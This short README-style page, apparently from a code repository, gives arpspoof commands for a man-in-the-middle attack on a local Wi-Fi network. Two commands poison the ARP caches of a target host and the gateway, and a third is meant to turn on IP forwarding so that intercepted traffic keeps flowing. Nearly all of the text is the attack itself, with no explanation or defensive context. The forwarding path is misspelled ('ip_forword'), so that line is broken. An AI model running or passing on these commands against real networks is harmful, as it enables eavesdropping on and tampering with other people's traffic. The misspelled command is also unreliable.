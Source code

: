 # arpspoof

arpspoof terminal commands:

                       targetip    spoofip
arpspoof -i wlan0 -t 192.168.1.7  192.168.1.1

                        spoofip    targetip 
arpspoof -i wlan0 -t 192.168.1.1  192.168.1.7

echo 1 > /proc/sys/net/ipv4/ip_forword



